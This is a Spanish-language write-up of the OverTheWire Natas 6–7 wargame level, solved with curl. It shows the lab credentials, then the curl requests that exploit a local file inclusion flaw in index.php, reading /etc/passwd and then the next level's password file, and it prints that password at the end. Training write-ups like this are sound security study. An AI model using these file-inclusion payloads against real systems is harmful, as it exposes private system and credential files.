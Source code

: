 ```yaml
---
title: OverTheWire - Natas 6 - 7 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 6 - 7 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas6-7-1.png)

Observamos 2 links y un hint que nos indica donde se ubica la contraseña de natas8 en el servidor.

![](/images/images-otw-natas/natas6-7-2.png)

Si vamos a los links no vemos nada interesante.

![](/images/images-otw-natas/natas6-7-3.png)


Si sustituimos el valor `about` por el valor del archivo `/etc/passwd` confirmamos que `index.php` es vulnerable a **LFI**.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/passwd'
```

![](/images/images-otw-natas/natas6-7-5.png)

Si ahora escribimos la ruta absoluta hacia la contraseña de natas8 `/etc/natas_webpass/natas8` obtenemos la contraseña.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

![](/images/images-otw-natas/natas6-7-4.png)

# Contraseña
---

`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

---

## [Anterior](/level-5-6)
## [Siguiente](/level-7-8)